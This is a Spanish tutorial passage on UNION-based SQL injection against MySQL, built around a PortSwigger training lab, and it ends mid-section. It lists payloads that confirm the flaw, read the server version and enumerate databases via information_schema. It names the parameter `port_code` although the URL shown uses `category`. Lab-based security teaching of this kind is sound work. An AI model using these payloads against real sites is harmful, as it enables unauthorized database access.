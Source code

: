 # Guía práctica: SQL Injection para enumeración de MySQL


---

## Laboratorio Portswigger

Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```url
https://web-security-academy.net/filter?category=Gifts
```

---

## Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `2`  en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 2.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version-- -
```

## Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
```
Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:

**Query realizada**
